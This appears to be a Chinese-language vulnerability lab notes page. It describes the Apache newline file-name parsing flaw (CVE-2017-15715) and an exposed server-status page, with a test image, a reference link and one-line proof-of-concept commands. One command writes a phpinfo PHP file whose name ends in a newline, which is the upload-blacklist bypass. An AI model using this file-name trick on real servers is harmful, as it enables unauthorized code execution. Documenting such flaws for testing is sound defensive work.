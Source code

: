 ## CVE-2017-15715 - 换行符解析漏洞

简要说明

* 当文件名为 `a.php\n` 时，Apache 依然会当做PHP脚本去处理，造成漏洞

测试镜像

* src/base/php5.4

参考资料

* [利用最新Apache解析漏洞（CVE-2017-15715）绕过上传黑名单](https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html)

Poc

```
python -c 'with open("/var/www/html/a.php\n", "wb") as f: f.write("<?php phpinfo(); ?>")' 
```

## 运维安全 - server-status 暴露漏洞

测试镜像

* src/base/php5.4

Poc

```
curl 127.0.0.1/server-status/
```

